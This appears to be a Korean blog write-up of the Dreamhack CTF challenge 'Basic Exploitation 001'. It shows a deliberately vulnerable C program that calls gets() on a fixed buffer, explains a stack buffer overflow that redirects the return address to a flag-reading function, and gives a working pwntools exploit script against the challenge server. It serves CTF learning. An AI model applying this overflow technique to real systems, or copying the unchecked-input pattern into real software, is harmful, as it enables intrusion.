 ```yaml
---
title: "[pwn]Basic Exploitation 001"
excerpt: "Dreamhack Basic Exploitation 001"
category: CTF
tags: [pwnable]
toc:true
toc_label: "Table of Contents"
toc_sticky: true
---
```

1. 환경 확인  
**file** 명령어로 i386, LE 환경인것을 확인한다.

2. code 확인  
~~~
void read_flag(){
    system("cat /flag");
}
int main(int argc, char \*argv[]){
    char buf[0x80];
    initialize();
    gets(buf); // gcc에서도 경고하는 **gets**
    return 0;
}
~~~
코드에서 알수 있듯이 버퍼의 크기는 0x80, **gets()**함수는 입력의 크기를 확인하지 않고 받는다. 따라서 Stack Buffer Overflow를 이용해서 exploit할수 있다.  
심지어 친절하게 **read_flag()**함수를 만들어 두어서 shellcode를 사용하지 않아도 된다.  

3. payload 작성  
메모리를 확인하면 $esp에 0x80 크기의 버퍼를 두고 4byte의 SFP, 그뒤에 main 함수의 ret 주소가 있다.  
따라서 0x84 크기의 dummy와 **read_flag()**의 주소 0x080485B9를 **p32()**를 통해 LE로 넣는다.  

4. script 작성  
~~~
from pwn import *

p=remote('host1.dreamhack.games',22850)
payload=b'A'\*0x84+p32(0x080485B9)
p.sendline(payload)
p.interactive()
~~~
<img width="614" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154212885-17d2fd26-779d-4c41-b2b6-5f87f8eb3a04.png">
